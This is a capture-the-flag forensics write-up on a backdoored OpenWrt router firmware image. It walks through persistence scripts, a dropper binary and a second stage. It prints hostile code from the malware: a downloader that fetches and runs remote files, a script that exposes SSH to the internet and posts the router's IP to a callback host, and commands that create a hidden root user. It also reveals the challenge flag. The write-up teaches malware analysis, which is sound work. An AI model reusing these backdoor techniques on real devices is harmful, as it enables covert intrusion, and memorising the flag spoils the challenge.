




 <font size='10'>ZombieNet</font>

05<sup>th</sup> December 2023 / Document No. D23.102.XX

Prepared By: c4n0pus

Challenge Author(s): c4n0pus

Difficulty: <font color=orange>Medium</font>

Classification: Official

## Flag: `HTB{Z0mb13s_h4v3_inf3ct3d_0ur_c0mmun1c4t10ns!!}`

## Docker Image: `forensics_zombienet_unictf2023`

## Release: [forensics_zombienet.zip](release/forensics_zombienet.zip) `SHA256:7345f1d5e6449d13caec774dfc689bf952c80619062882e9209a22edf57a146e`

# Synopsis

A medium Forensic challenge that provides players with an `openwrt` upgrade package for a `Xiaomi Router 4A Gigabit Edition`. Players will need to examine the upgrade package and identify a number of backdoors. In addition, players may need to emulate a `MIPS` binary in order to reproduce some requests to the server that contain the flag (instead of reversing the binary).

## Description

There was an attack on the NOC (Network Operations Center) of Hackster University and as a result, a large number of Network devices were compromised! After successfully fending off the attack the devices were decommissioned and sent off to be inspected. However, there is a strong suspicion among your peers that not all devices were identified! They suspect that the attackers managed to maintain access to the network despite our team's efforts! It's your job to investigate a recently used disk image and uncover how the Zombies maintain their access!

**Note:** Like the first Forensic challenge, make sure you edit `/etc/host` so that any hostnames found point to the Docker IP.
**Note 2:** This challenge **DOES NOT** require any system modification at all!

## Skills Required
- Linux File System
- Linux autorun scripts

## Skills Learned
- OpenWrt Configuration
- Binary Emulation using QEMU

# Enumeration

We are given a `squashfs` file and judging by the name and the `-sysupgrade` suffix, this is an `OpenWrt` firmware update package for the `Xiaomi Router 4A`. The `sysupgrade` means that this image can be used to update a router with `Openwrt` already installed.

We can use `binwalk` to extract it (will use [sasquatch](https://github.com/devttys0/sasquatch) internally, so make sure you have this installed).

After browsing to the resulting directory we can find an all-familiar root directory structure:



How do we proceed from here though? And what do we need to look for? Let's start by searching for the [boot process](https://oldwiki.archive.openwrt.org/doc/techref/process.boot) of `OpenWrt`.

Let's focus on the **Init** part, meaning after the Kernel has been brought up and the system starts loading the services:

```txt
1. init reads /etc/inittab for the "sysinit" entry (default is "::sysinit:/etc/init.d/rcS S boot")
2. init calls /etc/init.d/rcS S boot
3. rcS executes the symlinks to the actual startup scripts located in /etc/rc.d/S##xxxxxx with option "start":
4. after rcS finishes, system should be up and running
```

Noticing line 3, every symlink preset in the `/etc/rc.d` directory with name `S##xxxxxx` (which defines a service, `S` for start) will be started.
Said symlinks point to the service script inside `/etc/init.d`:



There is one script that doesn't match the syntax of the rest and also is "themed" according to the CTF, so this must be worth looking at:

`S95dead-reanimation -> ../init.d/dead-reanimation`

```bash
#!/bin/sh /etc/rc.common

START=95
USE_PROCD=1
PROG=/sbin/zombie_runner

start_service() {
	procd_open_instance
	procd_set_param command $PROG
	procd_set_param respawn ${respawn_threshold:-3600} ${respawn_timeout:-5} ${respawn_retry:-5}
	procd_close_instance
}
```

Per the [Documentation]() this is a simple service managing script that defines a service with its necessary parameters and options. This service executes `/sbin/zombie_runner` on boot. (We know this service is enabled because the symlink exists in `/etc/rc.d`)

Now let's take a look at `/sbin/zombie_runner`:

```sh
#!/bin/sh

while [ 1 ]; do
    /usr/bin/dead-reanimation
    sleep 600
done

exit 0
```

A simple runner script that executes `/usr/bin/dead-reanimation` every 10 minutes.

```sh
$ file dead-reanimation

dead-reanimation: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mipsel-sf.so.1, no section header
```

A binary for the `MIPS` architecture (this was already known from the CPU type: `mt7621`), let's decompile it in Ghidra:

```C
int main() {
    //[...REDACTED...]
    local_b0 = 0x9a6f65f0;
    local_ac = 0xadf4e47e;
    local_a8 = 0x4e937069;
    local_a4 = 0x8ec5e155;
    local_a0 = 0x3af55fc1;
    local_9c = 0;
    local_98 = 0x9a6f65f0;
    local_94 = 0xadf4f27e;
    local_90 = 0x4a8c4663;
    local_8c = 0x9082ea40;
    local_88 = 200;

    memcpy(acStack_84,&DAT_00400f74,0x3f);
    memcpy(acStack_44,&DAT_00400fb4,0x3c);

    FUN_00400c04((char *)&local_b0);
    FUN_00400c04((char *)&local_98);
    FUN_00400c04(acStack_84);
    FUN_00400c04(acStack_44);

    iVar1 = access((char *)&local_b0,0);
    if (iVar1 == -1) {
        FUN_00400b20(acStack_84,(char *)&local_b0);
        chmod((char *)&local_b0,0x1ff);
    }

    iVar1 = access((char *)&local_98,0);
    if (iVar1 == -1) {
        FUN_00400b20(acStack_44,(char *)&local_98);
        chmod((char *)&local_98,0x1ff);
    }

    system((char *)&local_98);
    system((char *)&local_b0);
    return 0;
}
```

We find some variable declarations, a function named `FUN_00400c04` and then two pars of code that both use `access()` to check if a file is available and finally, a call to `system()` with arguments the variables that were declared.

After some basic reversing, we find that `FUN_00400c04` is just an `XOR` function that deobfuscates the strings and `FUN_00400b20` is just a wrapper around some `libcurl` calls to download the file and save it. Afterward, it changes permissions to `777` and executes it:

```c
    memcpy(url0,&DAT_00400f74,0x3f);
    memcpy(url1,&DAT_00400fb4,0x3c);
    xor(dest_file0);
    xor(dest_file1);
    xor(url0);
    xor(url1);
    iVar1 = access(dest_file0,0);
    if (iVar1 == -1) {
        curl_get(url0,dest_file0);
        chmod(dest_file0,0777);
    }
    iVar1 = access(dest_file1,0);
    if (iVar1 == -1) {
        curl_get(url1,dest_file1);
        chmod(dest_file1,0777);
    }
    system(dest_file1);
    system(dest_file0);
    return 0;
```

We need to deobfuscate the strings to find the URLs so that we can download the files and examine them!




Note the `Swap Endianness` in the recipe! Similarly, we deobfuscate the rest of the strings and we are left with (key length is 32 bytes):

```txt
http://configs.router.htb:8817/reanimate.sh_jEzOWMtZTUxOS00 -> /tmp/reanimate.sh
http://configs.router.htb:8817/dead_reanimated_mNmZTMtNjU3YS00 -> /tmp/dead_reanimated
```

We now can request these files from the docker instance! (Make sure you append the hostname into the `/etc/hosts` so it resolves to the docker instance's IP address)


Let's check the `reanimate.sh` script:

```sh
#!/bin/sh

WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)

CONFIG="config redirect         \n\t
	option dest 'lan'           \n\t
	option target 'DNAT'        \n\t
	option name 'share'         \n\t
	option src 'wan'            \n\t
	option src_dport '61337'    \n\t
	option dest_port '22'       \n\t
	option family 'ipv4'        \n\t
	list proto 'tcpudp'         \n\t
	option dest_ip '${ROUTER_IP}'"

echo -e $CONFIG >> /etc/config/firewall
/etc/init.d/firewall restart

curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb:8817/reanimate
```

It starts by defining two variables `WAN_IP` and `ROUTER_IP` which are populated with the IP addresses of the `pppoe-wan` and `br-lan` iterfaces. `pppoe-wan` means `Point to Point Protocol` and it's used when a router performs a `ppp` call to the ISP using the provided credentials, through a modem and assigns itself a public IP address. 

The `br-lan` interface is a default interface on `OpenWrt` routers because the firmware gives the ability to have different `VLANS` on each Ethernet Port.

The next `CONFIG` variable is a string that is being `echo`ed in the firewall configuration at `/etc/config/firewall`. It forwards the SSH port of the router to the `WAN` at port `61337`! The SSH port is now accessible from anywhere!

Finally, it makes a request to the callback server with the Public IP as payload and a `base64` string as a cookie. If we decode that string, it's the first part of the flag!

Moving on to the second file:

```sh
$ file dead_reanimated

dead_reanimated: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mipsel-sf.so.1, with debug_info, not stripped
```

Another binary, let's examine it with Ghidra:

```C
int main() {
    // [...REDACTED...]
    local_20._0_1_ = 'z';
    local_20._1_1_ = 'o';
    local_20._2_1_ = 'm';
    local_20._3_1_ = 'b';
    local_1c._0_1_ = 'i';
    local_1c._1_1_ = 'e';
    local_1c._2_1_ = '_';
    local_1c._3_1_ = 'l';
    local_18._0_1_ = 'o';
    local_18._1_1_ = 'r';
    local_18._2_1_ = 'd';
    local_18._3_1_ = '\0';
    memcpy(acStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
    memcpy(acStack_3c,&DAT_00400d5c,0x1b);
    sVar1 = strlen(acStack_3c);
    pvVar2 = malloc(sVar1 << 2);
    init_crypto_lib(acStack_68,acStack_3c,(int)pvVar2);

    iVar3 = curl_easy_init();
    if (iVar3 == 0) { uVar7 = 0xfffffffe; } 
    else {
        curl_easy_setopt(iVar3,0x2712,"http://configs.router.htb:8817/callback");
        curl_easy_setopt(iVar3,0x271f,pvVar2);
        curl_easy_perform(iVar3);
        curl_easy_cleanup(iVar3);

        pFVar4 = fopen("/proc/sys/kernel/hostname","r");
        local_168 = 0;
        memset(auStack_164,0,0xfc);
        sVar1 = fread(&local_168,0x100,1,pFVar4);
        fclose(pFVar4);
        (&uStack_169)[sVar1] = 0;
        iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
        if (iVar3 == 0) {
        _Var5 = getuid();
        if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
            ppVar6 = getpwnam((char *)&local_20);
            if (ppVar6 == (passwd *)0x0) {
            system(
                    "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
                    );
            }
            pFVar4 = popen("passwd zombie_lord","w");
            fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
            pclose(pFVar4);
            uVar7 = 0;
        }
        else { uVar7 = 0xffffffff; }
        } else { uVar7 = 0xffffffff; }
    }
    return uVar7;
}
```

A more elaborate binary than the first one... Let's check it out.

A string is being declared: `zombie_lord`. Then a couple more variables are populated using `memcpy()`, then a `malloc()`. 

We find a call to `init_crypto_lib()`, an unknown function:
```c
init_crypto_lib(acStack_68,acStack_3c,(int)pvVar2);
[...]
curl_easy_setopt(iVar3,0x2712,"http://configs.router.htb:8817/callback");
curl_easy_setopt(iVar3,0x271f,pvVar2);
```

This unknown function takes for the 3rd argument a variable that is also a payload for a `curl` request! Let's not waste time on that, and keep going. We'll come back when necessary!

```c
pFVar4 = fopen("/proc/sys/kernel/hostname","r");
local_168 = 0;
memset(auStack_164,0,0xfc);
sVar1 = fread(&local_168,0x100,1,pFVar4);
fclose(pFVar4);
(&uStack_169)[sVar1] = 0;
iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
```

We then find a check for the current hostname, the binary exits if the hostnames don't match! Same goes for a root check using `getuid()/geteuid()`!

The binary then checks for the existence of a user (`local_20`) using the `getpwnam()` function. (Used for managing user information and passwords, will return NULL if the user does not exist. [getpwnam(3)](https://man7.org/linux/man-pages/man3/getpwnam.3.html))

If the user does not exist then a call to `system()` is issued with arguments:

- `opkg update` - Will update the repositories
- `opkg install shadow-useradd` - Will install `shadow-useradd`
- `useradd -s /bin/ash -g 0 -u 0 -o -M zombie_lord` - Will create a user `zombie_lord` with `GID: 0`, `UID: 0` -> root user

Finally, it will call `passwd zombie_lord` using `popen` and will set the password as `pvVar2`. 

Now we know that the value of the `pvVar2` variable is the new backdoor user!

Keep in mind that the SSH port is exposed and both of the above programs run again after 10 minutes!

Instead of trying to reverse `init_crypto_lib()` and all subsequent functions we can emulate the binary in order to intercept the request or change the entry in the `/etc/host` file to point to our localhost IP instead of the docker one.

**WARNING:** Running binaries on your system, even as a non-privileged user, is extremely dangerous! Always run them in a truly isolated environment. Emulating this binary is fine because of the hostname, uid checks and even if those pass the program will crash trying to execute `opkg` because it does not exist!


# Solution

Firstly let's change the entry in the `host` file so the domain name points to `127.0.0.1`, and spin up a `netcat` listener using `nc -lnvp 8817`.

In order to emulate we will need `QEMU` and we will be using the `qemu-mipsel` program:

```sh
$ qemu-mipsel ./dead_reanimated

qemu-mipsel: Could not open '/lib/ld-musl-mipsel-sf.so.1': No such file or directory
```

Since this is a dynamic binary, the linker is needed in order to link the different libraries and resolve unknown symbols. And because we have the entirety of the filesystem, we can copy the needed files into a folder called `lib`. 

Then rerun the emulator using `-L` parameter and specify the directory that **contains** the `lib` folder. `QEMU` looks for a folder called `lib`! If all goes fine, we will be seeing the request in our `netcat` window!

```sh
$ qemu-mipsel -L . ./dead_reanimated

Error loading shared library libcurl.so.4: Exec format error (needed by /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated)
Error loading shared library libgcc_s.so.1: Exec format error (needed by /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated)
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_init: symbol not found
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_setopt: symbol not found
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_cleanup: symbol not found
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_perform: symbol not found
```

After providing the linker we can see that more libraries are needed. We similarly copy the needed libraries to the `lib` folder:

```sh
$ nc -lnvp 8817
Connection from 127.0.0.1:34916
POST /callback HTTP/1.1
Host: configs.router.htb:8817
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

...REDACTED...}"^~|E⏎
```

**WARNING:** **DO NOT** copy the libraries inside your local `/lib` folder, your system's libraries have the same name and if overwritten could be a big trouble!

## Another solution

Instead of emulating the binary the keen reversers among you may have recognized that the `init_crypto_lib()` function (and the nested calls) are indeed an `RC4` encryption scheme! We can use the key and ciphertext to decrypt it:


